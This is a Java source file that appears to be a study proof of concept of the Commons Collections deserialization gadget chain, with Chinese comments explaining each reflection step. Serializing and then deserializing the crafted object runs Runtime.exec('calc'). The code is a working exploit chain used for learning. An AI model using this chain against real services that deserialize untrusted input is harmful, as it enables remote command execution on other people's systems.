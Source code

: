 ```java
public class cc11 {
    public static void main(String[] args) throws IOException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, InstantiationException {

        //定义一系列Transformer对象,组成一个变换链
        Transformer[] transformers = new Transformer[]{
                //返回Runtime.class
                new ConstantTransformer(Runtime.class),
                //通过反射调用getRuntime()方法获取Runtime对象
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                //通过反射调用invoke()方法
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                //通过反射调用exec()方法启动计算器
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        //将多个Transformer对象组合成一个链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hash = new HashMap<>();
        //使用chainedTransformer装饰HashMap生成新的Map
        Map decorate = LazyMap.decorate(hash, chainedTransformer);

        //通过反射获取AnnotationInvocationHandler类的构造方法
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        //设置构造方法为可访问的
        constructor.setAccessible(true);
        //通过反射创建 Override 类的代理对象 instance,并设置其调用会委托给 decorate 对象
        InvocationHandler instance = (InvocationHandler) constructor.newInstance(Override.class, decorate);

        //创建Map接口的代理对象proxyInstance,并设置其调用处理器为instance
        Map proxyInstance = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, instance);
        //再次通过反射创建代理对象
        Object o = constructor.newInstance(Override.class, proxyInstance);

        serialize(o);
        unserialize("1.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(Files.newOutputStream(Paths.get("1.bin")));
        out.writeObject(obj);
    }

    public static void unserialize(String filename) throws IOException, ClassNotFoundException {
        ObjectInputStream out = new ObjectInputStream(Files.newInputStream(Paths.get(filename)));
        out.readObject();
    }

}
```
